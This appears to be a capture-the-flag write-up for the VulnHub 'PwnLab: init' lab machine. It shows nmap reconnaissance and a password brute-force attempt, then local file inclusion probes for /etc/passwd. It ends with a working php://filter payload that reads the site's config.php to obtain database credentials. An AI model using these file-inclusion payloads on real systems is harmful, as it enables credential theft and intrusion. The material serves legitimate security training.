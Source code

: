 # VulnHub - PwnLab: init

Let's first locate the VM on the network:

```
# nmap -sn 192.168.56.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-26 16:07 UTC
...
Nmap scan report for 192.168.56.114
Host is up.
...
```

And then check it's open TCP ports:

```
# nmap -p- 192.168.56.114
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-26 16:08 UTC
Nmap scan report for 192.168.56.114
Host is up (0.00027s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
3306/tcp  open  mysql
42747/tcp open  unknown
```

Based on the ports, we run nmap version detection and script scanning along with nikto while manually inspecting port 80. The website is simple with a home page with links to login form and upload. The upload is restricted to users only. Not fond of bruteforcing credentials, but since it is sometimes the intended solution, bruteforce was issued on the login form with classic usernames (user, admin) and top 12000 password list.

As tools were running and the web was inspected, a weird URL param emerged:

```
http://192.168.56.114/?page=upload
```

Went first by trying simple LFI stuff such as `/etc/passwd` or `../../../../etc/passwd`, `php://expect`, etc. Thinking about the URL parameter - if there is a LFI vulnerability, file extension is appended to the parameter in code. The following input worked:

```
http://192.168.56.114/?page=php://filter/convert.base64-encode/resource=upload
```

Just in time, nikto results showed:

```
+ /config.php: PHP Config file may contain database IDs and passwords.
```

So this step was crucial:

`http://192.168.56.114/?page=php://filter/convert.base64-encode/resource=config`
